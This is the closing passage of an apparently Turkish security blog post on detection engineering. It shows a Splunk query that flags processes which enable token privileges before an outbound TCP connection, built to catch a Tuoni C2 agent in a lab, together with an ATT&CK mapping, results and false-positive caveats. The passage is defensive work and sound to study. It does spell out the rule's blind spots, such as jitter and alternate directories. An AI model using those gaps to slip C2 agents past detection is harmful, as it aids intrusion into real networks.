    AND mvfind(privileges,"^(SeLoadDriverPrivilege|SeTakeOwnershipPrivilege)$")>=0
| eval seconds_to_tcp=round(first_tcp-started,2), _time=started
| table _time endpoint user pid image parent privilege_count privileges seconds_to_tcp destinations
```

> `last_priv<=first_tcp` koşulu sorgunun en kritik satırıdır. Yalnızca "ayrıcalık ve bağlantı mevcuttu" demez; **önce ayrıcalıklar etkinleşti, sonra ağa çıkıldı** der. Olayları bir davranış sırasına oturtan unsur budur. Sıra koşulu kaldırılırsa kural, ayrıcalık kullanan meşru bir aracın tesadüfen aynı pencerede ağ bağlantısı kurmasını da pozitif olarak değerlendirir.
{: .prompt-tip }


_Görsel 19 · Sorgu Splunk Enterprise üzerinde çalışıyor._

## MITRE ATT&CK karşılığı

Yakalanan davranışın tekniklere oturtulması, hem kuralın üretime taşınmasını hem de bir analiste aktarılmasını kolaylaştırır:

| Gözlem | Teknik |
|---|---|
| Kısa sürede çok sayıda token ayrıcalığının etkinleşmesi (`SeDebugPrivilege`, `SeLoadDriverPrivilege` vb.) | T1134 — Access Token Manipulation |
| Kullanıcı profilinden çalışan EXE'nin HTTP üzerinden geri bağlanması | T1071.001 — Application Layer Protocol: Web Protocols |
| İlk check-in ve komut kanalı | TA0011 — Command and Control |

## Üç çalıştırma, üç eşleşme

Sonuç tablosunda `4056`, `6080` ve `7152` PID'leri ayrı satırlarda yer aldı; `6080`, Tuoni konsolunda gözlemlediğimiz oturumla birebir örtüştü. Üç örnekte de dokuz ayrıcalık bulunuyordu. Sürecin başlangıcından ilk TCP bağlantısına kadar geçen süreler sırasıyla **7,03 — 8,68 — 7,62** saniye olarak ölçüldü. Hedef IP, port ve EXE adı sonuç alanlarına Windows kayıtlarından geldi; yani bu alanları aramaya hiç yazmadan, davranış eşleştikten *sonra* elde ettik. Çalışmanın başındaki soru tam olarak buydu.


_Görsel 20 · Üç örnek: dokuzar ayrıcalık, ~7–9 saniye, aynı hedef._

## Üretime taşımadan önce: kısıtlar ve uyarılar

Kural laboratuvarda üç pozitif üretti; ancak bu hâliyle doğrudan üretime alınması doğru olmaz. Dikkat edilmesi gereken birkaç nokta vardır:

- **Yanlış pozitif kaynakları gerçektir.** Kullanıcı profilinden çalışıp token ayrıcalığı etkinleştiren tek bileşen C2 ajanı değildir. Bazı EDR ve yönetim ajanları, kurulum sihirbazları ve geliştirici araçları (`%LOCALAPPDATA%` altından çalışan Electron uygulamaları, güncelleyiciler vb.) benzer bir iz üretebilir. Üretime almadan önce eşleşen her sürecin **dosya yolunu, ebeveynini ve imza durumunu** incelemek, bilinen güvenilir yürütülebilir dosyaları bir allowlist'e eklemek gerekir.
- **Token ayrıcalığının etkinleşmesi, ayrıcalık kazanımı anlamına gelmez.** 4703 olayı, sürecin *mevcut* bir ayrıcalığı etkinleştirdiğini gösterir; yeni bir yetki kazandığını değil. Buradaki sinyal tek bir ayrıcalık değil, kısa pencerede gerçekleşen **birikme** ve hemen ardından kurulan ağ bağlantısıdır.
- **Kuralın bilinçli olarak kapsamadıkları.** Farklı bir dizinden (`C:\Windows\Temp`, bir servis yolu vb.) çalışan, token ayrıcalıklarına dokunmayan veya ilk bağlantıyı jitter nedeniyle dakikalar sonra açan bir ajan bu koşulların dışında kalır. Dolayısıyla bu kural, tüm Tuoni varyantlarını değil, *belirli bir davranış profilini* yakalayan dar kapsamlı ve yüksek güvenilirlikli bir kuraldır. Risk tabanlı uyarılama (RBA) yaklaşımında bu tür kurallar tek başına değil, risk puanına katkı olarak değerlendirilir.
- **Taşınabilirlik telemetriye bağlıdır.** Kuralı başka bir ortama taşırken ilk kontrol SPL değil, veri kaynağıdır: 4688 (tercihen komut satırı loglamasıyla), 4703 ve 5156 olayları birlikte toplanıyor mu ve `EventData_Xml` alanına erişilebiliyor mu? Bu üçü bir arada bulunmuyorsa sorgu sessizce boş sonuç döndürür.

Laboratuvar senaryosunun değeri, saldırıyı bizzat kurup telemetriyi doğrudan gözlemleme imkânı vermesindedir. `calclistlogic.exe`'nin IP'sini baştan biliyorduk; ancak kuralı bu bilgiyle değil, sürecin davranış sırasıyla kurduk. Gerçek bir vakada bu isim elde bulunmayacağından, hacme değil davranış sırasına dayanan kurallara ihtiyaç duyulur.

---

*Komutlar kendi laboratuvarınızda denenirken IP adreslerini, `index` ve alan adlarını kendi ortamınıza göre uyarlamanız gerekir. Görüş ve itirazlara açığız.*

[Tuoni kurulum dokümantasyonu](https://docs.tuoni.io/HowToUse/SettingUpTheC2.html) · [Tuoni HTTP ajanı örneği](https://docs.tuoni.io/HowToUse/UseCases/SimpleHttpAgent.html)
